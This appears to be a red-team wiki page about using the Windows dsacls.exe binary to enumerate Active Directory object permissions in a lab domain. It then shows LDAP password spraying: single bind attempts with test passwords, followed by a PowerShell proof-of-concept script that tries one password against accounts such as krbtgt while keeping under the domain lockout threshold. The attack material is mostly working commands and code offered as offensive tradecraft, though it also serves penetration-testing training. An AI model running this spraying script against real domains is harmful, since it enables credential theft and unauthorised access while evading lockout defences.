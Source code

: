 ```yaml
---
layout: post
title: "using dsacls to check ad object permissions"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-kerberos-abuse/
---
```


---
description: Enumeration, living off the land
---

# Enumerating AD Object Permissions with dsacls

It is possible to use a native windows binary (in addition to powershell cmdlet `Get-Acl`) to enumerate Active Directory object security persmissions. The binary of interest is `dsacls.exe`.

Dsacls allows us to display or modify permissions (ACLS) of an Active Directory Domain Services (AD DS).

## Execution

Let's check if user `spot` has any special permissions against user's `spotless` AD object:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode %}

Nothing useful:

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-46-47.png>)

Let's give user spot `Reset Password` and `Change Password` permissions on `spotless` AD object:

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-46-04.png>)

...and try the command again:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-44-21.png>)

### Full Control

All well known (and abusable) AD object permissions should be sought here. One of them is `FULL CONTROL`:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "full control"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-54-36.png>)

### Add/Remove self as member

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" | select-string "spotless"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-57-50.png>)

### WriteProperty/ChangeOwnerShip

![](<../../.gitbook/assets/Screenshot from 2019-03-19 23-00-04.png>)

Enumerating AD object permissions this way does not come in a nice format that can be piped between powershell cmd-lets, but it's still something to keep in mind if you do not the ability to use tools like powerview or ActiveDirectory powershell cmdlets or if you are trying to `LOL`.

For more good privileges to be abused:

{% content-ref url="privileged-accounts-and-token-privileges.md" %}
[privileged-accounts-and-token-privileges.md](privileged-accounts-and-token-privileges.md)
{% endcontent-ref %}

{% content-ref url="abusing-active-directory-acls-aces.md" %}
[abusing-active-directory-acls-aces.md](abusing-active-directory-acls-aces.md)
{% endcontent-ref %}

## Password Spraying Anyone?

As a side note, the `dsacls` binary could be used to do LDAP password spraying as it allows us to bind to an LDAP session with a specified username and password:

{% code title="incorrect logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:1234567
```
{% endcode %}

![Logon Failure](<../../.gitbook/assets/Screenshot from 2019-03-19 23-09-12.png>)

{% code title="correct logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:123456
```
{% endcode %}

![Logon Successful](<../../.gitbook/assets/Screenshot from 2019-03-19 23-09-59.png>)

### Dirty POC idea for Password Spraying:

{% code title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 00-10-10.png>)

## References

{% embed url="https://support.microsoft.com/en-gb/help/281146/how-to-use-dsacls-exe-in-windows-server-2003-and-windows-2000" %}
@spotheplanet
